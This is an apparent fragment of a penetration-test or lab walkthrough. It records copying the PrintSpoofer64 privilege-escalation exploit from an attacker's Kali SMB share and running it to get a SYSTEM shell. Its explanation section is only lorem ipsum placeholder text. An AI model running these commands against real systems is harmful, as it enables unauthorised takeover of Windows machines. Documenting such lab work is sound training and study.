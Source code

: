 #### -Navigated to directory "C:\Users\Public"

#### - Typed "copy \\[Kali IP]\Share\PrintSpoofer64.exe" to copy the PrintSpoofer64.exe compiled privesc exploit on the target machine

#PrintSpoofer64.exePrivescExploit

#### - Typed "PrintSpoofer64.exe -i -c cmd" and received a shell running with system privileges:




## Privilege Escalation vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---

